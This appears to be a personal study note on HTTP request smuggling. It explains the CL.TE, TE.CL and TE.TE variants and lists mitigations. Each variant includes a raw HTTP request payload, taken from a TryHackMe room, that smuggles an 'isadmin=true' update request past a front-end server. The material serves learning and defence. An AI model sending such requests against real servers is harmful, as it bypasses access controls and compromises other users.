 # HTTP Request Smuggling

[PortSwigger's HTTP Request Smuggling](https://portswigger.net/web-security/request-smuggling) states: *HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.Request smuggling is primarily associated with HTTP/1 requests. However, websites that support HTTP/2 may be vulnerable, depending on their back-end architecture.*

Given modern web application infrastructure:
![1920](modern-web-applications-http-request-smuggling.excalidraw)
There can be:
- Front-end servers
- Back-end servers
- Databases
- APIs
- Microservices
- Load Balancers
- Reverse Proxies
- Cache Mechanisms - storing data, results for future use - generally to reduce compute and network requests made by infrastructure
	- Content Caching - caching unchanging web content   
	- Database Query caching - caching the results of frequent query 
	- Full-page Caching - Entire page is cache so users do not need to regenerate them
	- Edge Caching/CDNs -  Content Delivery Networks (CDNs) cache content closer to the users
	- API Caching - caching API frequently used or all responses 

## Defining a HTTP Request Smuggling Attack 

HTTP Request Smuggling can occur when multiple different servers interpret HTTP request boundaries and the processing sequences of HTTP requests received create discrepancies in interpretation. 
- Conflicting Headers lead to (most like) undefined prioritisation
	- Either `Content-Length` and `Transfer-Encoding` headers

## Techniques

#### HTTP Request Smuggling CL.TE

CL.TE denotes Content-Length/Transfer-Encoding: front-end server and the back-end server interprets the request boundaries differently
- `Content-Length: 80` - Size matters how the server that interprets this header. 
- `Transfer-Encoding: chunked` is interpreted as a `0` and therefore end of a chunk, the second request 

Example from [THM HTTP Request Smuggling Room](https://tryhackme.com/room/httprequestsmuggling):
```php
POST /search HTTP/1.1
Host: example.com
Content-Length: 80
Transfer-Encoding: chunked

0

POST /update HTTP/1.1
Host: example.com
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

isadmin=true
```
#### HTTP Request Smuggling TE.CL

TE.CL denotes Transfer-Encoding/Content-Length: front-end server uses the Transfer-Encoding header to determine the end of a request, and the back-end server uses the Content-Length header.
- `Transfer-Encoding: chunked` is interpreted as chunked up to  `0` by front-end as part of the first request 
- `Content-Length: 4` is interpreted by the back-end and then process only the first 4 bytes of the request; then the remaining part of the request, from `POST /update...` is then process 

Example from [THM HTTP Request Smuggling Room](https://tryhackme.com/room/httprequestsmuggling):
```php
POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked

4c
POST /update HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

isadmin=true
0
```

#### HTTP Request Smuggling TE.TE 

TE.TE or Transfer-Encoding/Transfer-Encoding  is known as Transfer Encoding Obfuscation where two servers handle the `Transfer-Encoding` header inconsistently. Either using:
- Multiple `Transfer-Encoding` headers
- Single malformed `Transfer-Encoding` header 
```php
POST / HTTP/1.1
Host: example.com
Content-length: 4
// Either front-end will interpret or..
// ..Malformed header that will be ignored and interpret to the 0
Transfer-Encoding: chunked  
Transfer-Encoding: chunked1 
// back-end would either reject malformed or process similar to front-end
// Or interpret process only the first `4` bytes from Content-Length and then process then next part of the request:

4c
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0 
```

#### Mitigation and Prevention Strategies

1. **Consistent Header Processing**: All servers, whether front-end or back-end, should consistently process headers. Any discrepancy can open the door for smuggling.
2. **Adopt HTTP/2**: HTTP/2 offers a more robust mechanism for handling request boundaries, making it a safer choice against smuggling attacks.
3. **Regular Monitoring and Audits**: Continuously monitor web server traffic for signs of smuggling attempts and conduct regular audits to ensure server configurations are up-to-date and secure.
4. **Educate Teams**: Ensure that development and operations teams are well-informed about the risks of request smuggling and the best practices to prevent it.

## References

[THM HTTP Request Smuggling Room](https://tryhackme.com/room/httprequestsmuggling)
[PortSwigger's HTTP Request Smuggling](https://portswigger.net/web-security/request-smuggling) 
